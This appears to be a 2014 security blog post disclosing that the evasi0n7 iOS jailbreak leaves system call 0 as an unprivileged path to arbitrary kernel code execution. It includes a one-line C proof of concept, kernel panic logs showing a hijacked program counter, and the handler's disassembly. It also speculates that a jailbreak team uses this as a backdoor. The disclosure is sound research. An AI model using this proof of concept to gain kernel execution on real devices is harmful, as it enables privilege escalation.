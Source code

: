 ```yaml
---
layout: post
title:  "Evading iOS Security"
date:   2014-01-12 01:30:00
categories: projects research
---
```


Here's some code:

{% highlight c %}
main() {
	syscall(0, 0x41414141, -1);
}
{% endhighlight %}

Here's what happens when you run it on a device using evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0x9dc204d7): sleh_abort: prefetch abort in kernel mode: fault_addr=0x41414140
r0:   0xffffffff  r1: 0x27dffdec  r2: 0x2bf0e9c4  r3: 0x2bf0e95c
r4:   0x41414141  r5: 0xa48782d4  r6: 0x81b6f594  r7: 0x8f5d3fa8
r8:   0x9df1d614  r9: 0x81b6f330 r10: 0x9df1db00 r11: 0x00000006
r12:  0x00000000  sp: 0x8f5d3f60  lr: 0x93dd7048  pc: 0x41414140
cpsr: 0x20000033 fsr: 0x00000005 far: 0x41414140
{% endhighlight %}

And here's what happens on an ARM64 device that also uses evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0xffffff801522194c): PC alignment exception from kernel. (saved state: 0xffffff800dbc4640)
	  x0: 0x2bea99c400401e08  x1:  0x00402fe92bea995c  x2:  0xbdf4cd1500403008  x3:  0x0040156400000000
	  x4: 0x0040156400000000  x5:  0x000000002bea995c  x6:  0x00402fe92bea995c  x7:  0xffffff80975df438
	  x8: 0xffffffff41414141  x9:  0x000000000000000e  x10: 0xffffff8096f9b100  x11: 0x0000000000000000
	  x12: 0x0000000003000004 x13: 0x0000000000401420  x14: 0x000000002be925a1  x15: 0x0000000000402ffe
	  x16: 0x0000000000000000 x17: 0x0000000000000000  x18: 0x0000000000000000  x19: 0xffffff8096f9b410
	  x20: 0xffffff80977203f0 x21: 0xffffff80975df438  x22: 0xffffff80155ea3c8  x23: 0x0000000000000018
	  x24: 0xffffff8096f9b418 x25: 0x0000000000000000  x26: 0x0000000000000006  x27: 0x0000000000000000
	  x28: 0xffffff80155ea3c8 fp:  0xffffff800dbc4a60  lr:  0xffffff8015362434  sp:  0xffffff800dbc4990
	  pc:  0xffffffff41414141 cpsr: 0x60000304         esr: 0x8a000000          far: 0xffffffff41414141
{% endhighlight %}

..And here's the system call handler for system call 0... (ARM32 of course!)
{% highlight bash %}
__text:00000000                 CODE32
__text:00000000                 STMFD           SP!, {R4-R7,LR}
__text:00000004                 MOV             R5, R2
__text:00000008                 MOV             R6, R1
__text:0000000C                 LDR             R0, =0x9E415A34
__text:00000010                 BLX             R0
__text:00000014                 LDR             R0, =0x9E41E160
__text:00000018                 BLX             R0
__text:0000001C                 LDR             R0, =0x9E415958
__text:00000020                 BLX             R0
__text:00000024                 LDR             R0, [R6]
__text:00000028                 CMP             R0, #0
__text:0000002C                 BEQ             locret_50
__text:00000030                 MOV             R4, R0
__text:00000034                 LDR             R0, [R6,#4]
__text:00000038                 LDR             R1, [R6,#8]
__text:0000003C                 LDR             R2, [R6,#0xC]
__text:00000040                 LDR             R3, [R6,#0x10]
__text:00000044                 BLX             R4
__text:00000048                 STR             R0, [R5]
__text:0000004C                 MOV             R0, #0
__text:00000050
__text:00000050 locret_50                               ; CODE XREF: __text:0000002Cj
__text:00000050                 LDMFD           SP!, {R4-R7,PC}
__text:00000050 ; ---------------------------------------------------------------------------
__text:00000054 off_54          DCD 0x9E415A34          ; DATA XREF: __text:0000000Cr
__text:00000058 off_58          DCD 0x9E41E160          ; DATA XREF: __text:00000014r
__text:0000005C off_5C          DCD 0x9E415958          ; DATA XREF: __text:0000001Cr
{% endhighlight %}

Jailbreaking ruins security and integrity. Enough said. Have a good day. 

(Oh, it also can be used by any user, including `mobile`. One can wonder if TaiG or such is using this as a
back door...)